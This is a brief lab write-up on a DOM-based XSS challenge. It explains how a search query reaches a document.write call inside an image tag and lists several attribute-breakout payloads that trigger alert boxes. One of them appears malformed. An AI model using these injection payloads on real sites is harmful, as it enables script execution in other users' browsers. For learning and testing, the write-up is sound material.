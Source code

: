 # DOM XSS in document.write sink using source location.search

Now, the challenge is kinda different than the first challenge, when we input tag in the search bar like before ``<b>hello</b>``, nothing will happen



But, let's see the source code


In the source code, we can see that the query was passed to the function **trackSearch**, then the function will create a new dom of image while the source of th eimage is coming from our input



To bypass it, we can add a **">** before the tag. So the payload will look like this:
```html
"><img src='x' onerror=alert("XSS")>
"><svg src='x' onload=alert("XSS")>
"><script>alert("XSS")</script>
">document.write("<script>alert("XSS")</script>");

etc...
```


Result



